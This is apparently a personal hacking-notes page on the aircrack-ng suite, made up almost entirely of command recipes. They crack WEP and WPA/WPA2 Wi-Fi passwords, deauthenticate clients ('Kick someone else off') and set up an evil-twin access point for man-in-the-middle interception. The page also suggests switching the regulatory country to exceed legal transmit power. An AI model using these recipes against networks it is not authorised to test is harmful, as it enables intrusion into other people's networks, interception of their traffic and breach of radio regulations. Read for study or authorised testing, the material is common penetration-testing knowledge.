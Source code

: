 # Aircrack-ng

TODO: Fill this information of covering aircrack-ng suite tools usage

## Help Menu

## Usage

```
# ip link set <interface> down
```

```
# ip link set <interface> up
```

### WEP

WiFi in Monitor mode

```
# airmon-ng start wlan0
```

Search for wireless

```
# airodump-ng mon0
```

Capture or inject

```
# airodump-ng --bssid <bssid> -c <channel> -w WEPcrack mon0
```

Inject ARP to capture IVs

```
# aireplay-ng -e -b <bssid> -h <mac> mon0
```

Crack (needs several thousand IVs)

```
# aircrack-ng WEPcrack.cap
```

### WPA/WPA2

Start airmon-ng

```
# airmon-ng start wlan0
```

Run airodump

```
# airodump-ng -i mon0
```

Find the network you want to access then wait for `WPA handshake: ##:##:##:##:##:##`

```
# airodump-ng --bssid <bssid> -c 11 -w cowpatty.cap mon0
```

Kick someone else off

```
# aireplay-ng -0 100 -a <bssid> mon0
```

Dictionary or other, crack the password

```
# aircrack-ng WPAcrack.cap -w <wordlist>
```

Pipe STDIN to aircrack-ng for password cracking

```
$ crunch <min-len> <max-len> -t <placeholder_characters> | aircrack-ng -w - file.cap -e <ESSID>
```

### Evil Twin

Our first task will be to creating an evil twin access point. Many new hackers are anxious to crack Wi-Fi passwords to gain some free bandwidth (don't worry, we'll get to that), but there are so many other Wi-Fi hacks that are far more powerful and put so much more at risk than a bit of bandwidth.

What's an Evil Twin AP?
The evil twin AP is an access point that looks and acts just like a legitimate AP (using the same SSID) and entices the end-user to connect to our access point. Our aircrack-ng suite has a tool, airbase-ng, that can be used to convert our wireless adapter into an access point. This is a powerful client-side hack that will enable us to see all of the traffic from the client and conduct a man-in-the middle attack.

Many corporate offices, hotels, coffee shops, etc. employ this type of security.

Start airmon

```
iwconfig
airmon-ng start wlan0
```

Start airdump then wait for ssid to show 

```
airodump-ng mon0
```

Create new AP with same ssid and mac

```
airbase-ng -a <bssid> --essid <ssid> -c <channel> mon0
```

Deauth your target

```
aireplay-ng --deauth 0 -a <bssid>
```

Run your AP at max power (27 is max 'legal' power)

```
iwconfig wlan0 txpower 27 
```

Bypass restrictions is by setting to another domain/country then wait for connection

```
iw reg set BO

iwconfig wlan0 txpower 30
```

---
## References

### Backlinks

- [[Crunch|Crunch]]

### Hacktricks

- [Hacktricks: Pentesting Wi-Fi](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi)